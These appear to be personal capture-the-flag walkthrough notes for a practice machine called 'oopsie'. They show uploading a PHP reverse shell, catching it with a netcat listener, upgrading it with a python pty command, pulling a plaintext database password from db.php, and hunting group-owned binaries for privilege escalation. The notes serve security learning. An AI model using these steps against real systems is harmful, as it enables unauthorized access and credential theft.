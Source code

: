 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/` the folder `login`. There are 4 files in that folder. 

## admin.php
Inside the file there's a new id `86575` but no username related.

## db.php
In the first lines appears the username `robert` with a password `M3g4C0rpUs3r!` and the word `garage`.

```ad-question
Maybe ssh with robert user?
```

# cat /etc/xxx
## passwd
```bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

## group
```bash
robert:x:1000:lxd
bugtracker:x:1001:robert
```


# /usr/bin
Found a file with `find / -group bugtracker` that only members of `bugtracker` can execute. Must login with robert.